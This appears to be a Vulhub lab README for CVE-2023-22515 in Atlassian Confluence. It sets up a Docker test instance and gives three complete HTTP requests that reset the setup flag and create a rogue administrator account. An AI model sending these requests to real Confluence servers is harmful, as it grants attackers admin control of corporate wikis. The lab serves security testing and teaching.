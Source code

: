 # Atlassian Confluence Access Control Broken by Attributes Overwrite (CVE-2023-22515)

[中文版本(Chinese version)](README.zh-cn.md)

Confluence is a web-based corporate wiki developed by Australian software company Atlassian.

On October 4, 2023, Atlassian published a security advisory on CVE-2023-22515, a critical vulnerability affecting on-premises instances of Confluence Server and Confluence Data Center. CVE-2023-22515 was originally announced as a privilege escalation vulnerability, but was later changed to a broken access control flaw.

Versions prior to 8.0.0 are not affected by this vulnerability.

References:

- <https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html>
- <https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis>

## Vulnerable Environment

Execute following command to start a Confluence Server 8.5.1:

```
docker compose up -d
```

After the environment starts, visit ``http://your-ip:8090`` and you will see the installation guide, select "Trial installation", then you will be asked to fill in the license key. You should apply for a Confluence Server test certificate from Atlassian.

Following [this guide](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396) to complete the installation.

On the database configuration page, fill in the form with database address `db`, database name `confluence`, username `postgres`, password `postgres`.

![](1.png)

## Exploit

Firstly, send the main request to overwrite the attribute `bootstrapStatusProvider.applicationConfig.setupComplete`:

```
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

Then, you will be able to create a administrator user `vulhub` through the website setup action:

```
POST /setup/setupadministrator.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
X-Atlassian-Token: no-check

username=vulhub&fullName=vulhub&email=admin%40vulhub.org&password=vulhub&confirm=vulhub&setup-next-button=Next
```

Optionally, send the following request to finish the setup wizard:

```
POST /setup/finishsetup.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
X-Atlassian-Token: no-check


```

Finally, you can simply login to the administrator panel with account `vulhub` and password `vulhub`:

![](2.png)
